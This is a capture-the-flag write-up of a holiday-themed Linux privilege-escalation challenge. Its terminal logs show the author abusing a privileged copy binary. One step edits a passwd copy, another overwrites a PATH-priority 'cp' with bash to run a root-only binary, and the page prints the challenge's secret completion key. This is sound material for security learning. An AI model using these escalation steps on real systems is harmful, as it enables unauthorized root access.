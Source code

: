 ```yaml
---
icon: simple/gnometerminal
---
```


# Linux PrivEsc

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective5.zip](https://.../)

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold (Ostrich Saloon)"
    In a digital winter wonderland we play,<br/>
    Where elves and bytes in harmony lay.<br/>
    This festive terminal is clear and bright,<br/>
    Escalate privileges, and bring forth the light.<br/>

    Start in the land of bash, where you reside,<br/>
    But to win this game, to root you must glide.<br/>
    Climb the ladder, permissions to seize,<br/>
    Unravel the mystery, with elegance and ease.<br/>

    There lies a gift, in the root's domain,<br/>
    An executable file to run, the prize you'll obtain.<br/>
    The game is won, the challenge complete,<br/>
    Merry Christmas to all, and to all, a root feat!<br/>

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's various ways to escalate privileges on a Linux system.

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

## Solution

This is my first attempt, hit a wall. 
``` 
sed -i 's/^elf:x:1000:1000::\/home\/elf:/elf:x:1000:1000:root:\/root:/' passwd1

elf@795c35ce2d2c:/usr/bin$ simplecopy /root/* /home/elf/

simplecopy "$LFILE" /dev/stdout > newrun

LFILE=/root/runmetoanswer

elf@de8289623969:/tmp$ chmod +x newrun
elf@de8289623969:/tmp$ newrun
bash: newrun: command not found
elf@de8289623969:/tmp$ ./newrun

Something went wrong reading the configuration file /etc/runtoanswer.yaml: Couldn't open file: Permission denied (os error 13)

If this persists, please ask for help!

elf@de8289623969:/tmp$ cat runtoanswer1.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: b08b538569e395f88e12ef9fe751ac39

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "santa"

text: |
  Who delivers Christmas presents?

success_message: "Your answer is *correct*!"
failure_message: "Sorry, that answer is *incorrect*. Please try again!"

# A prompt that is displayed if the user runs this interactively (they might
# not see this - answers can be entered as an argument)
prompt: "> "

# Optional: a time, in seconds, to delay before validating the answer (to
# prevent guessing)
delay: 1

# Optional: skip (most) stdout output if the answer is correct
headless: false

# If set to true, don't exit after the user asks
keep_going: false

# Optional: play this sound on completion or failure
#completion_sound: 'myhappysound.mp3'
#failure_sound: 'mysadsound.mp3'

# Close the terminal when it is completed?
```
Then I used another way, find a method to escalate privileges inside this terminal and then run the binary in /root 

```
strings simple copy

env

/usr/local/sbin/cp is the priority of $PATH environment variable. 

simplecopy /usr/bin/bash /usr/local/sbin/cp

elf@d5e39028f5f3:~$ env
HOSTNAME=d5e39028f5f3
RESOURCE_ID=3f342ba4-af1b-409c-8b37-27cdc88af654
PWD=/home/elf
HOME=/home/elf
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
HHCUSERNAME=Thomasmeeee
AREA=imtostrichsaloon
TERM=xterm
TOKENS=linuxpriv
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
LOCATION=7,6
_=/usr/bin/env
elf@d5e39028f5f3:~$ 
elf@d5e39028f5f3:~$ 
elf@d5e39028f5f3:~$ 
elf@d5e39028f5f3:~$ simplecopy /usr/bin/bash /usr/local/sbin/cp  
elf@d5e39028f5f3:~$ cd /tmp
elf@d5e39028f5f3:/tmp$ touch abc
elf@d5e39028f5f3:/tmp$ simplecopy /root/* ./
/root/runmetoanswer: /root/runmetoanswer: cannot execute binary file
elf@d5e39028f5f3:/tmp$ echo "/root/runmetoanswer" >> abc
elf@d5e39028f5f3:/tmp$ cat abc
/root/runmetoanswer
elf@d5e39028f5f3:/tmp$ simplecopy "abc" "abc"
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!

```

### Admonitions

!!! warning "Anchor the decorations"
    Ensure that all festive decorations, especially electrical ones, are securely anchored. We don’t want them floating off into the tropical sunset!

!!! info "Palm tree lighting"
    While on the island, make sure to hang your Christmas lights on a palm tree. It’s not only festive but also a great beacon for Santa to find you!

### Images

![Terminal output](../img/objectives/o7/terminal_output_o7.png)

### Question 1

!!! question "Question"
    Who delivers Christmas presents?

!!! success "Answer"
    santa

## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.<br/>
    To answer your question of why from earlier... Nunya!<br/>
    But, I will tell you something better, about some information I... found.<br/>
    There's a hidden, uncharted area somewhere along the coast of this island, and<br/> there may be more around the other islands.<br/>
    The area is supposed to have something on it that's totes worth, but I hear all <br/>the bad vibe toys chill there.<br/>
    That's all I got. K byyeeeee.<br/>
    Ugh... n00bs...<br/>

